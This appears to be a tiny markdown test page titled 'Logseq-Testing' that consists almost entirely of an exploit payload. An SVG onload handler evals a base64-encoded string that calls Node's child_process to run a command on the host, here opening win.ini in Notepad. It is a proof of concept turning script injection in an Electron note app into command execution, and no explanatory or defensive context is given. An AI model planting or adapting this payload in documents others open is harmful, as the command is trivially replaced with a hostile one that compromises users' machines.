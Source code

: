 # Logseq-Testing
---
<svg><svg onload=eval(atob('cmVxdWlyZSgiY2hpbGRfcHJvY2VzcyIpLmV4ZWMoIm5vdGVwYWQgQzpcXHdpbmRvd3NcXHdpbi5pbmkiKQ=='))>
